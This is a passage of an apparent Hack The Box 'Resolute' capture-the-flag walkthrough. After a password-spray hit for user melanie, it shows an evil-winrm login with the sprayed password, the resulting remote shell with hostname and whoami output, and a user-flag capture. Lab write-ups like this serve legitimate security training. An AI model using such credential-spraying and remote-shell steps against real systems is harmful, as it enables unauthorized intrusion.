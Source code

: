 ![spray.png](../assets/resolute_assets/spray.png)

Cool, like like we've got a hit for user melanie. Lets try logging in with Evil-Winrm:

```text
┌──(ryan㉿kali)-[~/HTB/Resolute]
└─$ evil-winrm -i megabank.local -u melanie -p 'Welcome123!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> hostname
Resolute
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```
From here we can grab the user.txt flag:

![user_flag.png](../assets/resolute_assets/user_flag.png)
